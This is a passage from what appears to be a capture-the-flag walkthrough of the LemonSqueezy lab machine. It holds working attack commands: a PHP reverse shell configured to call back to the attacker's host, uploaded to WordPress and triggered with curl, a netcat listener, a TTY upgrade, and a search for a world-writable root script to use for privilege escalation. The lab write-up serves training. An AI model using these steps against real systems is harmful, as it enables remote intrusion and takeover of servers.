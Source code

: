 I used a pentestmonkey php reverse shell, I changed the IP addres with the IP of the attacking machine and the port, then I encoded it to hexadecimal and wrote it in the uploads directory.

```bash
root@kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
root@kali:~$ sed -i 's/127.0.0.1/192.168.179.1/;s/1234/443/' shell.php 
root@kali:~$ xxd -ps shell.php | tr -d '\n' | xclip -sel c
```

![](/assets/images/lemonsqueezy/screenshot-11.png)


Then we need to set up a netcat listener and run the following curl instruction.

```bash
root@kali:~$ curl -s http://lemonsqueezy/wordpress/wp-content/uploads/z.php
```

As we see I got a shell and upgraded it to a TTY shell.

```bash
root@kali:~$ nc -vlnp 443                                               
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.158] 41036
Linux lemonsqueezy 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3 (2017-12-03) x86_64 GNU/Linux
 09:57:59 up  2:32,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@lemonsqueezy:/$
```

Listing the writable files, I found the logrotate python script, this removes the tmp directory, it also has write permissions for all users, I can use this script to elevate our privileges.

```bash
www-data@lemonsqueezy:/$ find / -writable -type f 2>/dev/null | egrep -v 'proc|sys'
<-writable -type f 2>/dev/null | egrep -v 'proc|sys'
/var/lib/wordpress/wp-content/index.php
/etc/logrotate.d/logrotate
www-data@lemonsqueezy:/$ cat /etc/logrotate.d/logrotate
cat /etc/logrotate.d/logrotate
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()
www-data@lemonsqueezy:/$ ls -la /etc/logrotate.d/logrotate
ls -la /etc/logrotate.d/logrotate
-rwxrwxrwx 1 root root 101 Apr 26  2020 /etc/logrotate.d/logrotate
```

